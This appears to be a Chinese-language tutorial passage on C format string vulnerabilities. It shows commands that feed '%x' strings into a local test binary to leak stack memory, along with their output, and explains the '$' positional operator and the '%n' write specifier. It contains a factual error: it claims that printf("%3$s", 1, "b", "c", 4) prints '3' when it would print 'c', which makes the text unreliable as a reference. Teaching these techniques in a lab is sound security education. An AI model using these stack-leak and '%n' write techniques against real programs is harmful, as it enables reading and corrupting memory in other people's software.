 
```py
$ python -c "print '%x'*49" | ./print2
64f7eff5a0f7ddd6bbff9d978eff9d988ce0782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825a7825f7eff3dcff9d97f00f7d65637f7eff000f7eff0000f7d656371ff9d9884ff9d988c000f7eff000f7f4ec04f7f4e0000
$ python -c "print '%x'*50" | ./print2
64f7f895a0f7e676bbffdfd03effdfd13ce0782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825257825f7f893dcffdfd0a00f7def637f7f89000f7f890000f7def6371ffdfd134ffdfd13c000f7f89000f7fd8c04f7fd80000
$ python -c "print '%x'*100" | ./print2
64f7f175a0f7df56bbffcc85ceffcc86cce0782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825257825f7f173dcffcc86300f7d7d637f7f17000f7f170000f7d7d6371ffcc86c4ffcc86cc000f7f17000f7f66c04f7f660000
```


```py
$ python -c "print '%08x, '*16" | ./print2
00000064, f7f415a0, f7e1f6bb, ffef4d4e, ffef4e4c, 000000e0, 78383025, 3025202c, 202c7838, 78383025, 3025202c, 202c7838, 78383025, 3025202c, 202c7838, 78383025,
```


## 读取数据

**$操作符**

读取一个特定的参数

```c
printf("%3$s", 1, "b", "c", 4);
```

将显示`3`而不是对应顺序的`1`。其他例子：

-   `printf("%3$d",1,2,3);`，显示`3`
-   `printf("%3$d %2$d %1$d",1,2,3);`，显示`3 2 1`

读取栈上第100个dword数据

```c
$ python -c "print '%100$08x'" | ./print2
ffa3cad0
```

<font color=Red>通过$操作符读取任意地址数据</font>



## 写入数据

* `%n`

    | 操作符 | 说明                                    |
    | --- | ------------------------------------- |
    | n   | 不输出字符，但是把已经成功输出的字符个数写入对应的整型指针参数所指的变量。 |
